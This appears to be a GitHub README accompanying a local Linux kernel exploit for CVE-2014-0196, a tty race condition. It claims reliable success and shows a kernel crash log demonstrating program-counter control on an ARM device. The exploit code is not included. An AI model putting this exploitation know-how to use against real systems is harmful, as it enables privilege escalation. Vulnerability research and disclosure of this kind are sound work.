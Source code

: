 # CVE-2014-0196

Edit : This README will be updated in the next few days.

Bug : Race condition in : tty_insert_flip_string_fixed_flag

Out of the 3 times the exploit was locally tested, it worked the 3 times under 1 minute. Thus, it is considered to have good reliability.

Debugging comments are in the source code, here is an extract from PC control :

```
Unable to handle kernel paging request at virtual address 41414140
pgd = e119c000
[41414140] *pgd=00000000
Internal error: Oops: 80000005 [#1] PREEMPT ARM
CPU: 0    Not tainted  (3.4.67-g2d58ef9-dirty #123)
PC is at 0x41414140
LR is at tty_ioctl+0xb6c/0xc04
pc : [<41414140>]    lr : [<c01f25c8>]    psr: 20000033
sp : e1199ea0  ip : 00005418  fp : ed908d40
r10: e1386780  r9 : e1198000  r8 : e0d00800
r7 : bec2fc94  r6 : deadbeef  r5 : e0d00800  r4 : 00000000
r3 : 41414141  r2 : bec2fc94  r1 : deadbeef  r0 : e0d00800
```

## Acknowledgement
Thanks to all Keen Team for their support, especially James Fang for his infinite wisdom and patience.
